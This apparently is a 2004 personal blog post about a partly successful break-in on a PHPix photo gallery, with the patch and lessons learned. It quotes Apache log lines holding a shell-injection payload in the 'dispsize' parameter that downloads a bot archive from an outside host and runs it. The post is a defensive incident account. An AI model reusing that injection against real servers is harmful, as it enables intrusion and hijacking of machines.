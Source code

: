 ```yaml
---
layout: post
status: publish
published: true
title: Sorta got owned.
author:
  display_name: squarism
  login: chris
  email: squarism@gmail.com
  url: ''
author_login: chris
author_email: squarism@gmail.com
wordpress_id: 51
wordpress_url: http://squarism.com/2004/11/04/sorta-got-owned/
date: !binary |-
  MjAwNC0xMS0wNCAyMzo1NDoxNCAtMDUwMA==
date_gmt: !binary |-
  MjAwNC0xMS0wNSAwNDo1NDoxNCAtMDUwMA==
categories:
- Unix
tags: []
comments: []
---
```

/tmp is writable for the apache user.  Someone exploited some bad code and uploaded an IRC bot on Aug 09.  It's not running now and we did a test to see if ./mech could be run.  It didn't start.

We fixed the PHPix code to check for system escapable characters.  PHPix really should have done this from the start.  Goes to show you that security really goes out the window with freeware and lots of services running.

`
[Mon Aug 09 05:39:42 2004] [error] [client 82.208.182.219] File does not exist: /var/www/jonhammond/docs/albums/generated/Misc/Other/dogs__scaled_`cd , referer: http://jonhammond.com/albums/?mode=view&album=Misc%2FOther&pic=dogs.jpg&
dispsize=http://www.martynlomax.com/phpix/index.php?album=pissups%2FOn-Anon&
dispsize=`cd%20/tmp;mkdir%20'%20..%20';cd%20'%20..%20';wget%20idl3.home.ro/botu.tgz;
tar%20xzvf%20botu.tgz;cd%20botu;./mech;./mech`&start=0
`

`
[Mon Aug 09 12:12:42 2004] [error] [client 82.208.182.219] File does not exist: /var/www/jonhammond/docs/albums/generated/Misc/Virginia/matt__scaled_`cd , referer: http://jonhammond.com/albums/?mode=view&album=Misc%2F
Virginia&pic=matt.jpg&
dispsize=`cd%20/tmp;mkdir%20'%20..%20';cd%20'%20..%20';wget%20idl3.home.ro/botu2.tgz;
tar%20xzvf%20botu2.tgz;cd%20botu;./mech`&start=0
`

Wasn't a big deal, the IRC bot didn't run because apache's shell is /bin/false.  (I shouldn't be telling you all this)  I'm still researching what emech is, how IRC bots work and if I can lock down apache anymore.
